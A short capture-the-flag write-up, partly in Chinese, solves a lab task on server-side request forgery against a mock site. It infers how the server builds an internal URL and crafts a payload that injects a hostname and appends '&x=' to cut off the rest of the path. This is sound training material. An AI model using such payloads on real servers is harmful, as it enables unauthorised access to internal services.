 # Task2: SSRF Examples
## Problem
Using what you've learnt, try changing the address in the browser below to force the webserver to return data from `https://server.website.thm/flag?id=9`. To make things easier the Server Requesting bar at the bottom of the mock browser will show the URL that website.thm is requesting.

The Orginal URL in browse: `https://website.thm/item/2?server=api`

## Soultion
由 `https://website.thm/item/2?server=api` 可以得出以下重要信息:
```sh
# 服务器会将 server=api 插入到某个内部 URL 构造逻辑中，很可能构造方式是这样的：
fetch("https://" + $_GET['server'] + ".website.thm/api/item/2")
```

So我们要让服务器最终发起的请求是：
```sh
https://server.website.thm/flag?id=9
```

那 Payload 应该设计成：
```sh
https://website.thm/item/2?server=server.website.thm/flag?id=9&x=

# 上述 Payload 经过服务器拼接后，最终会形成：
https://server.website.thm/flag?id=9&x=.website.thm/api/item/2

# 值得注意的是：`&x=` 会中断后续拼接路径，即 `&x=...` 是无用参数哦!
https://server.website.thm/flag?id=9
```